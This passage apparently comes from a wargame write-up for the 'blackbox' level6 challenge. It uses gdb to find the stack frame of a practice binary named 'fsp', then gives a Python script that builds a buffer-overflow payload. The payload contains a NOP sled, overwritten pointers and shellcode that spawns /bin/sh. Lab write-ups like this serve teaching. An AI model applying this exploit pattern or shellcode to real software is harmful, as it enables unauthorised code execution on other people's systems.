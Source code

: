 ![Stack-frame of "main"](/assets/blackbox/6/file.png){: .center-image }

All that's left now is to discover `ebp` so we can fill that structure up. Remember that the payload is `0x411+4=0x415` bytes long:

```
level6@blackbox:~$ gdb fsp
...

(gdb) break main
Breakpoint 1 at 0x8048452
(gdb) run `python -c "print 'a'*0x415"`
Starting program: /home/level6/fsp `python -c "print 'a'*0x415"`

Breakpoint 1, 0x08048452 in main ()
(gdb) p $ebp
$1 = (void *) 0xbfffd678
```

And write some script to generate the payload:

```python
import struct
EBP = 0xbfffd678
BUF = EBP - 0x419
PTR1 = BUF + 0x99
PTR2 = BUF + 0xb9
SHELLCODE = "31c050682f2f7368682f62696e89e3505389e131d2b00bcd80".decode("hex")

FILE = ""
FILE += struct.pack("<L", 0x80808080)
FILE += '\x90' * (0x46 - 4)
FILE += "\x01"
FILE += '\x90' * (0x95 - 0x47)
FILE += struct.pack("<L", PTR1)
FILE += '\x90' * (0xb5 - 0x99)
FILE += struct.pack("<L", PTR2)
FILE += SHELLCODE
FILE += '\x90' * (0x419 - 8 - len(FILE))
FILE += struct.pack("<L", BUF)
```